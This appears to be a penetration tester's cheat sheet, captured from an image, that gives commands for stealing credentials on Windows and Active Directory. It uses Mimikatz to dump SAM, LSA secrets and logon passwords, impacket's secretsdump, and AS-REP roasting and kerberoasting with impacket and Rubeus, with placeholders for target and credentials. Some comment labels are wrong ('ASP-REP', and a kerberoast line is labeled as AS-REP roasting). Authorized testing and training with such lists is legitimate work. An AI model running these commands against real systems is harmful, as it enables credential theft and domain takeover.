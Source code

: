 ```bash
# Mimikatz
token::elevate
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords

# Evil-winrm + Mimikatz
.\mimikatz.exe "privilege::debug" "lsadump::sam" "lsadump::tickets" "exit"
```

Other commands:

```bash
# SYSTEM & SAM: impacket
impacket-secretsdump -just-dc-user "[DOMAIN-ADMIN-USERNAME]" "[DOMAIN-NAME]:[USERNAME]:[PASSWORD]@[TARGET-IP]"

# AS-REP Roasting: impacket
impacket-GetNPUsers -dc-ip "[IP]" -request -outputfile hashes.asreproast "[DOMAIN]/[USERNAME]"

# Kerberoast: impacket
impacket-GetUserSPNs -request -dc-ip "[TARGET-IP]" "[DOMAIN]/[USERNAME]"

# ASP-REP Roasting: Rubeus
.\Rubeus.exe asreproast /nowrap

# ASP-REP Roasting: Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

